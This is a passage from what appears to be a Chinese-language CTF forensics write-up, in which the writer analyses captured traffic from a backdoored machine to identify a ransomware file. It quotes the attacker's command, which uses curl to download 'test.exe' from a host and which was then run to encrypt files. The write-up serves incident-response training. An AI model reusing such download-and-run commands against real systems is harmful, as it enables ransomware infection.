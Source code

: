 [![](assets/1702520939-5cadaf350f55e66619c5b99b2963e445.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213181047-e28888b0-999f-1.png)

## ransom

### ransom-1

> 题目内容：攻击者通过后门在受害机器上安装了勒索病毒，给出勒索病毒文件的 sha256(大写)(注：该文件建议在虚拟机中打开)

过滤 HTTP 之后，通过后门进行命令执行。可以看到执行命令`dir`，返回结果如下  
[![](assets/1702520939-7966eac8a5f779f4e0c2e7ca7add24a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213181109-ef7fc146-999f-1.png)  
继续往下看，发现执行了一个 curl 命令`curl 192.168.204.1:8000/test.exe --output test.exe`。并且后续执行此 exe，对某些文件进行了加密操作，因此这个`test.exe`就是勒索病毒。  